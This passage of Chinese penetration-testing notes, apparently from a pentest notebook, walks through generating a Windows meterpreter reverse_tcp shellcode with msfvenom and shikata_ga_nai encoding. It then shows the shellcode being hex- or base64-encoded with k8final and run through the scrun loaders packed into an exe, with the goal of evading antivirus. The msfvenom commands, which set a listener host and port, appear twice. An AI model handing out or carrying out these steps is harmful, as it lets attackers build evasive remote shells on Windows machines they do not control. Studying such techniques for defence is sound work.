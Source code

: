 #### hex
	生成c格式payload
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.0.108 lport=12138 -f c -o /var/www/html/shell.c
	下载k8final
![image](/assets/Pentest_Note/master/img/65.png)

	粘贴shellcode进去
![image](/assets/Pentest_Note/master/img/66.png)

	使用
	https://github.com/k8gege/scrun

![image](/assets/Pentest_Note/master/img/67.png)

	或
	>python scrun.py xxx
	或
	编译ScRunHex.py为exe
#### Base64(*)
	生成c格式payload
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.0.108 lport=12138 -f c -o /var/www/html/shell.c
	下载k8final

![image](/assets/Pentest_Note/master/img/68.png)

	粘贴shellcode进去
![image](/assets/Pentest_Note/master/img/69.png)

	进行hex编码后，粘贴进去base64编码
![image](/assets/Pentest_Note/master/img/70.png)

	看系统位数编译ScRunBase.py文件，使用pyinstaller打包为exe后执行
	https://gitee.com/RichChigga/scrun/blob/master/ScRunBase64.py
	>python pyinstaller-script.py -F -w ScRunBase64.py
![image](/assets/Pentest_Note/master/img/71.png)
![image](/assets/Pentest_Note/master/img/72.png)
